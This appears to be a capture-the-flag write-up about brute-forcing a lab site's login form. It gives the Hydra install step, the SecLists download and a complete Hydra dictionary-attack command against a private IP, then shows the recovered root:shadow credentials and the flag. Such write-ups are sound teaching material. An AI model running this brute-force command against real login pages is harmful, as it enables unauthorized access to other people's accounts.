 # Description
While analyzing the website, I found a **Sign In** button on the homepage. Clicking on it redirected me to a **login page** that required a username and password.

Since there were no apparent vulnerabilities like SQL injection, I decided to use **brute force** to try and find valid credentials.

## Tools Used
- **Hydra** – A popular tool for performing brute-force attacks.
- **SecLists** – A collection of common username and password wordlists.

## Exploitation Process

1. **Installing Hydra:**
   ```bash
   sudo apt install hydra
   ```

2. **Downloading SecLists:**
   ```bash
   git clone https://github.com/danielmiessler/SecLists.git
   ```

3. **Running Hydra:**
   I used Hydra to perform a dictionary attack with a shortlist of common usernames and passwords.
   
   ```bash
   hydra -L SecLists/Usernames/top-usernames-shortlist.txt \
         -P SecLists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt \
         -F 10.11.100.236 http-get-form \
         "/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login:F=images/WrongAnswer.gif"
   ```

4. **Result:**
   After running the attack, I successfully obtained valid credentials:
   ```
   [80][http-get-form] host: 10.11.100.236   login: root   password: shadow
   ```

5. **Logging In:**
   I used `root:shadow` to log into the website, and it successfully authenticated me.

6. **Flag:**
   After logging in, the website displayed the **flag**.

